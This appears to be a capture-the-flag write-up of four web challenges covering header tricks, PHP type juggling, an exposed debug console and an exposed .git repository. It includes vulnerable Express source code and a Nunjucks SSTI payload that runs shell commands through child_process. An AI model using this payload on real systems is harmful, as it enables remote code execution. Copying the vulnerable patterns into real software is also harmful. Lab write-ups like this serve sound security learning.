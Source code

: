Since the CTF isn't live now I can't deploy machines so I will share what I remember I used to solve the web challs.

### Sweet-Nothing
Description: What can be sweeter than doing nothing? The flag is right in front of you.
Solution: -
There were an Italian flag and things related to Italy in the index of the website.
So we change the `Accept-Language` Header to include `it-IT`.
```
Accept-Language: it-IT
```
We get a resopnse saying that the query `secret` is `spaghetti`. So we set the URL query as so along with the changed language header.
```
https://chall.web/?secret=spaghetti
```

### why-are-types-weird
Description: Jacob is making a simple website to test out his PHP skills. He is certain that his website has absolutely zero security issues.
Solution: - 
This was a PHP type juggling chall.
Upon viewing the html source of the index, we see that `source.php` is commented and upon visiting source.php we get the login.php source code.
It had a weak comparision in place.
Similar to below.
```php
<?php
if (password_hash($_GET['password'],'sha1') == "0") {
  header("Location: admin.php")
}
?>
```
So I went down to John Hammond's [ctf-katana](https://github.com/JohnHammond/ctf-katana#php) and pulled out some SHA1 magic hashes and their plaintext and used them as password along with "admin" as username.
In admin.php you can search for user based on ID, its based SQLi.

### debugzero
Description: Someone on the dev team fat fingered their keyboard, and deployed the wrong app to production. Try and find what went wrong. The flag is in a file called "flag.txt"
Solution: -
A html comment in the index read something like `John, how many times do I tell you to turn off debug mode in production.` So I immediately tried the most possible thing and that is `/console`. We could also fuzz directories using big.txt from dirb, we would have gotten it.
And the PIN to the locked console was present in `styles/style.css` which could be seen in HTML source.

### gitcha
Description: Simon is maintaining a personal portfolio website, along with a secret which no one else knows. Can you discover his secret?
Solution: -
The website had its `.git` exposed. I used `git-dumper` to dump it.
Checking up `robots.txt` reveals to us a `/supersecret/` which can be accessed only if a specific cookie is set. We can learn about this by reviewing the .git dump.
```
const express = require("express");
const fs = require("fs");
const serveIndex = require("serve-index");
const cookieParser = require("cookie-parser");
const nunjucks = require("nunjucks");
const bodyParser = require("body-parser");

const { PrismaClient } = require("@prisma/client");
const prisma = new PrismaClient();

const app = express();

const checkAdmin = (req, res) => {
  if (req.cookies["SECRET_COOKIE_VALUE"] === "thisisahugesecret") {
    return true;
  }
  return false;
};

nunjucks.configure("views", {
  autoescape: true,
  express: app,
});

app.use(cookieParser());
app.use(express.static("public"));
app.use(bodyParser.urlencoded({ extended: true }));

app.use("/.git", express.static(".git/"), serveIndex(".git/", { icons: true }));

app.get("/robots.txt", (req, res) => {
  res.type("text/plain");
  res.send("User-agent: *\nDisallow: /.git/\nDisallow: /supersecret/");
});

app.get("/supersecret", async (req, res) => {
  if (checkAdmin(req, res)) {
    const results = await prisma.note.findMany();
    res.render("notes.html", { foo: "bar", notes: results });
  } else {
    res.redirect("/");
  }
});

app.get("/getnotedetails", async (req, res) => {
  if (checkAdmin(req, res)) {
    const { id } = req.query;
    const note = await prisma.note.findUnique({ where: { id: parseInt(id) } });
    res.send(
      nunjucks.renderString(`
      <div style="margin: 15px;">
        <h1 style="font-family: Roboto;">${note.title}</h1>
        <p>${note.content}</p>
      </div>
  `)
    );
  } else {
    res.redirect("/");
  }
});

app.post("/addnote", async (req, res) => {
  if (checkAdmin(req, res)) {
    await prisma.note.create({
      data: {
        title: req.body.title,
        content: req.body.content,
      },
    });
    res.status(200).send("Note added");
  } else {
    res.status(403).send("Forbidden");
  }
});

app.get("/viewsource", (req, res) => {
  if (checkAdmin(req, res)) {
    const data = fs.readFileSync("index.js", "utf8");
    res.type("text/javascript");
    res.send(`
        ${data}
    `);
  }
});

app.listen(8080, () => {
  console.log("Example app listening on port 8080!");
});
```
According to the above, we set cookie as `SECRET_COOKIE_VALUE=thisisahugesecret` which gives us access to the supersecret directory.
We can see that the `/getnotedetails` is vulnerable to SSTI. I used [this blog](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine) as reference.
```
{{range.constructor("return global.process.mainModule.require('child_process').execSync('cat flag.txt')")()}}
```
Thus creating a note with above payload as title/content and viewing the note gets us code execution via SSTI.

### where-are-the-cookies
?? I forgot this.

